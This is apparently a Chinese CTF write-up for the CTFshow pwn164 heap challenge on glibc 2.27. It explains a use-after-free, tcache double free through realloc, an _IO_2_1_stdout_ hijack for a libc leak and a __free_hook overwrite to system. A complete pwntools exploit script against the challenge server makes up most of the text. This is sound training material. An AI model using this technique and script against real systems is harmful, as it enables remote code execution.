 ```yaml
---
title: CTFshow pwn164
tags:
    - pwn
    - tcachebin dup
categories:
    - 做题笔记
cover: /img/阿尼亚.png
---
```

# CTFshow pwn164 （tcache dup）

## 前言
​        一步一步来吧，这是一道2.27版本的利用。同时是需要打__IO_2_1_stdout_去泄露libc地址的。但是难度不大，因为tcache bin 有些太拉胯了。给它一个uaf ，它可以自己double free 7次。这是什么？然后利用realloc 的一个特性，既可以malloc 又 可以 free。
​        **七剑下天山** 遇上 **双料特工** ，简直无敌了。

## ida分析

### delete功能
![image-20250530200643343](https://cdn.jsdelivr.net/gh/peruy/mypic@main/img/image-20250530200643343.png)
1.典型的uaf 没有置空，但是ptr是哪来的?
2.继续看，add功能

### add功能
![image-20250530200820909](https://cdn.jsdelivr.net/gh/peruy/mypic@main/img/image-20250530200820909.png)
1.ptr在这里，也就是刚刚分配的堆块的指针。
2.realloc，一个很有问题的函数。当size不为0时且ptr不为空时：realloc 会检测ptr 的大小，如果ptr_size>=size，就重新分配，切割;否则，会先free ptr，再分配，然后两者都会返回分配的空间的指针。当size不为0且ptr为空时，与malloc等效，返回指针。当size为0且ptr不为空时，与free等效，并且返回空。size为0且ptr为空，梅栾邕。

### 神秘选项
![image-20250530201556131](https://cdn.jsdelivr.net/gh/peruy/mypic@main/img/image-20250530201556131.png)
1.一次置空ptr的机会

## 思路分析
1.首先还是查看保护机制--全开。第一步还是老步骤，泄露libc。同样在这里只能通过unsorted bin中的堆块，来泄露。但是因为是2.27版本，所以需要先把tcache bin填满，才能让堆块进入unsorted bin。同时，此题没有show来打印，所以需要劫持__IO_2_1_stdout_ ，然后puts时，会把相关信息打出来。那么通过gdb 观察 stdout 的地址与main_arena的地址，修改低位两字节即可。这里需要注意一点。当我们把tcache bin 填满，且把这个堆块放入unsorted bin中后。如果直接add 这个堆块，是会把tcache bin 中的这个堆块申请出来的。如图：
![image-20250530210823813](https://cdn.jsdelivr.net/gh/peruy/mypic@main/img/image-20250530210823813.png)

2.如果要实现tcache dup 的话，应该是先把unsorted bin 中的这个堆块拿出来，并且覆盖fd针的低位，使得stdout被链入tcache bin 中。然后在把这两个堆块申清出来。所以我们要在这个堆块前面，申请一个堆块a。a堆块与我们这个堆块地址相邻，在申请前，先把a堆块申请出来，再申请两个堆块大小之和的堆块大小，这样a会先被free，然后与这个堆块合并再被分配出来。如图：
![image-20250530212136953](https://cdn.jsdelivr.net/gh/peruy/mypic@main/img/image-20250530212136953.png)

3.然后就是劫持stdout ，拿到libc后就是，同样的操作，去分配到free hook并篡改成system。同时在free hook -8 的位置布置"/bin/sh;" 最后free() 就可以触发，getshell了

## exp
```python 
from esy import *
context.log_level = 'debug'
context.terminal = ['tmux','splitw','-h','-l','66%']
io,elf=loadfile("pwn","pwn.challenge.ctf.show",28309)
libc=ELF("/home/tsq/glibc-all-in-one/libs/2.27-3ubuntu1_amd64/libc.so.6")


def add(size,content):
    io.sendafter("Choice:","1")
    io.sendafter("Size?\n",str(size))
    io.sendafter("Content?\n",content)
def free():
    io.sendafter("Choice:","2")
def tozero():
    io.sendafter("Choice:","1433233")

add(0x70,b'a')
add(0,b'') 
add(0x100,b'a')
add(0,b'')

add(0xa0,b'a')
add(0,b'')
add(0x100,b'a')
# 填满tcache bins
[free() for i in range(7)]

add(0,b'')
add(0x70,b'a')
add(0x180,b'c'*0x78+p64(0x41)+p8(0x60)+p8(0xc7))
add(0,b'')

add(0x100,b'a')
add(0,b'')

# 劫持IO
add(0x100,p64(0xfbad1887)+p64(0)*3+p8(0x58))
libc_base = u64(io.recvuntil(b"\x7f",timeout=0.1)[-6:].ljust(8,b'\x00'))-0x3e82a0
#libc_base = u64(io.recv(6).ljust(8,b'\x00'))-0x3e82a0
free_hook = libc_base + libc.sym["__free_hook"]
system = libc_base + libc.sym['system']
one_gadget = libc_base + 0x4f322
logvalue("libc_base",hex(libc_base))
logvalue("free",hex(free_hook))
logvalue("system",hex(system))

tozero()
add(0x120,b'a')
add(0,b'')
add(0x130,b'a')
add(0,b'')
add(0x140,b'a')
add(0,b'')
add(0x130,b'a')
[free() for i in range(7)]
add(0,b" ")
add(0x120,b'a')
#gdb.attach(io)
add(0x260,b'a'*0x128+p64(0x131)+p64(free_hook-8))
add(0,b'')
add(0x130,b'a')
add(0,b'')
add(0x130,b"/bin/sh;"+p64(system))
free()

io.interactive()
```

